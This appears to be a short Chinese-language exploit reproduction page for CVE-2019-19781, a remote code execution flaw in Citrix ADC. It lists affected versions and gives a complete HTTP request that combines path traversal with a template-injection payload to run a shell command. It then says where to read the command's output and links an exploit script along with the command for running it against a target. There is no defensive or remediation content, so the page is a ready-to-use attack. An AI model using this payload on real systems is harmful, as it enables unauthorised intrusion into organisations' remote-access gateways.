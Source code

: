 # Citrix-远程代码执行漏洞复现（CVE-2019-19781）

## 漏洞影响
Citrix 13.x,12.1,12.0,11.1,10.5

## 漏洞复现
方法一：
构造如下数据包

```
POST /vpn/../vpns/portal/scripts/newbm.pl HTTP/1.1
Host: target-ip
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.23.0
NSC_NONCE: nsroot
NSC_USER: ../../../netscaler/portal/templates/15ffbdca
Content-Length: 89
```



url=http://example.com&title=test&desc=[% template.new('BLOCK' = 'print `whoami`') %]
访问/vpn/../vpns/portal/test.xml即可返回命令执行结果
方法二：
exp下载：https://codeload.github.com/jas502n/CVE-2019-19781/zip/master

python CVE-2019-19781-Citrix-ADC-Remote-Code-Execution.py https://target-ip
提示代理错误的话，挂本地代理即可。